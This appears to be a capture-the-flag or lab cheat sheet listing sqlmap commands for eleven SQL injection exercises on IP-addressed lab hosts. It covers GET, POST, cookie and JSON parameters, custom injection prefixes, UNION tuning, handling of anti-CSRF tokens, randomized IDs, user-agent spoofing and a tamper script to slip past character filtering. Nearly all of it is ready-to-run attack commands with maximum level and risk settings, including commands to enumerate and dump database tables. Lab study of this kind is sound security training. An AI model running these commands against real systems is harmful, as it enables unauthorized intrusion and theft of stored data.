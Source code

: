___
# GET

```bash
sqlmap -u "http://83.136.254.47:49729/case1.php?id=1" --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

- --dbs
- --tables -D testdb
- --dump -T flag1 -D testdb
# POST

```bash
sqlmap -u "http://83.136.254.47:49729/case2.php" --data='id=1' --method POST --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

# Cookie

```bash
sqlmap -u "http://83.136.254.47:49729/case3.php" --cookie="id=1" --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

# JSON

```bash
sqlmap -u "http://83.136.254.47:49729/case4.php" --data='{"id":1}' --method POST --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

# OR SQLi

```bash
sqlmap -u "http://83.136.254.47:49729/case5.php?id=1" --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

# Non-standard boundaries

```bash
sqlmap -u "http://83.136.254.47:49729/case6.php?col=id" --level 5 --risk 3 -p col --batch --threads 10 --dbms=mysql --dbs --prefix='`)'
```

# UNION SQLi with adjustments

```bash
sqlmap http://94.237.52.98:38740/case7.php?id=1 --union-cols=5 --level 5 --risk 3 -p id --batch --dbs
```

# anti-CSRF token bypass

```bash
sqlmap -u "http://83.136.254.47:46258/case8.php?id=1" --data="id=1&t0ken=N2zrnsP1IZI7DxBalvg1xgQ4q1cTf6Y4dumE1ts" --method POST --csrf-token="t0ken" --level 5 --risk 3 -p id --batch --dbms=mysql --dbs
```

# Unique ID

```bash
sqlmap -u "http://94.237.52.98:38740/case9.php?id=1&uid=1705034632" --level 5 --risk 3 -p id --batch --dbms=mysql --dbs --randomize=uid
```

# Primitive protection

```bash
sqlmap -u "http://94.237.52.98:38740/case10.php" --data='id=1' --batch --threads 10 --dbms=mysql --dbs --random-agent
```

# Filtering of characters '<', '>'

```bash
sqlmap -u "http://94.237.52.98:38740/case11.php?id=1" -p id --batch --dbms=mysql --dbs --tamper=between
```

```txt
[WARNING] it appears that the character '>' is filtered by the back-end server. You are strongly advised to reru  
n with the '--tamper=between'
```


